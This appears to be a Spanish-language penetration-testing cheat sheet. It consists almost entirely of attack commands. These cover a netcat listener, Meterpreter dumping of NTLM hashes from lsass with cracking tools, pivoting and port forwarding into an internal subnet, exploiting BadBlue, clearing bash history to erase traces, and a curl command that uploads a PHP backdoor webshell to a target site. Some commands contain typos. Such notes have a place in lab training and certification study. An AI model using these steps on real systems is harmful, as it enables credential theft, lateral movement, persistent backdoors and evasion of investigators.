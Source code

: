 nc -nvlp Port


DUMPING Y CRACKING DE HASHES NTLM (Volcar y Descifrar)

Dentro de una sesion
pgrep lsass -Ya que este es el proceso que se va a explotar
migrate 1234
hashdump -Se obtienen los hashes NTLM de los usuarios del sistema
net users -Enumerar usuarios
jhon -Decfrar con jhon the ripper o hashkat

Linux
search linux/gather/hashdump -Para extraer los hashes



PIVOTING

Primero se explota el objetivo inicial, idealmente teniendo una sesiond meterpreter
meterpreter> ipconfig -Verificar las interfaces que tiene (1 loopback, 2 misma que nosotros, 3 subnet interna) o no?
run autoroute -s SubnetVictima1(10.0.29/20 --> Dependiendo de la mascara)
run auotorute -p -Listas la tabla de rutas
background
msf> search portscan/tcp
set RHOST IPVictima2
set PORTS 1-100
exploit

___________PORTFORWARDING

sessions 1
meterpreter> portfwd add -l 1234(Mio) -p 80 -r IPVctima2
# nmap -sVC -p 1234 localhost -Hace un Nmap a mi IP y mi puerto

search BadBlue
set payload windows/metreprete/bind_tcp
set RHOST IPVcitima2
exploit
Se creo una sesion de meterpreter de la Victima2


BORRAR HUELLAS

WINDOWS
meterpreter> resources ruta/a/archivo_Creado al ejecutar el meterpreter/archivo.rc

LINUX
history -c -Borrar el historial de comandos usados en bash
cat /dev/null > .bash_history

_______________________________________________________________________

curl http://Web/uploads/ --upload-file /usr/share/webshells/php/simple-backdoor.php -Carga de archivos en un directory Listing dependiendo de los metodos que acepte ese directorio web
